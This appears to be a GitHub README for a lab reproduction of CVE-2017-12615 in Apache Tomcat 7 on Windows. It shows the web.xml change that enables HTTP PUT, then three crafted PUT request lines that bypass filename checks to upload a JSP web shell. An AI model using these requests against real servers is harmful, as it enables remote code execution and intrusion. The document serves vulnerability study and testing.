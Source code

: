 # Tomcat Remote Code Execution Vulnability(CVE-2017-12615)

## Introduction

When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP `PUTs` enabled (e.g. via setting the **readonly** initialisation parameter of the Default to **false**) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Impact version:

```
Tomcat [7.0.0 7.0.79]
```

## Usage

Since this vulnearability only work on `Windows`, I have no build a docker contaner. But it's easy to review

Download a vulnerable version of [tomcat](https://archive.apache.org/dist/tomcat/tomcat-7/), modified the `web.xml` in `conf/` path as below.

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <!-- set readonly to false -->
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value> 
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Save it. And run

```bash
./catalina.sh start
```

After that you can use the poc to uploading file.

```http
PUT shell.jsp%20 HTTP/1.1
PUT shell.jsp::$DATA HTTP/1.1
PUT shell.jsp/ HTTP/1.1
```

Uploading

![upload](images/upload.png)

Accessing

![access](images/access.png)